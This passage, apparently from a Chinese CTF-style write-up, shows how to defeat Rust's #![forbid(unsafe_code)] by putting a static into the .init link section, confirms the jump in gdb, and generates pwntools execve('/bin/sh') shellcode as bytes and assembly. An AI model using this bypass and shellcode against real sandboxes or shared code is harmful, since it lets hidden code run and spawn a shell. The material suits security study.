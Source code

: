 试了一下，往里面放准确的函数指针还是有点难度，但是可以直接往 `.init` 段里面加东西：

```rust
#![forbid(unsafe_code)]

#[link_section=".init"]
#[no_mangle]
pub static shellcode: u64 = 0;

pub fn run() {
}
```

（最新的 Rust stable 已经不再允许禁止 unsafe 时 link_section 了，所以得开个 Rust 1.51 的容器测试）

然后一跑，Segmentation fault! 挂个 gdb 看看：

```
(gdb) x/x $rip
0x55bc62a00018 <shellcode>:     0x00000000
```

果然。那就简单了，先搞个 shellcode bytes：

```python
>>> context.arch = "amd64"
>>> asm(shellcraft.amd64.linux.sh())
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
>>> asm(shellcraft.amd64.linux.sh())
KeyboardInterrupt
>>> res = []
>>> for i in 
KeyboardInterrupt
>>> a = asm(shellcraft.amd64.linux.sh())
>>> for i in a:
...     res.append(i)
... 
>>> res
[106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5]
>>> len(res)
48
>>> print(shellcraft.amd64.linux.sh())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```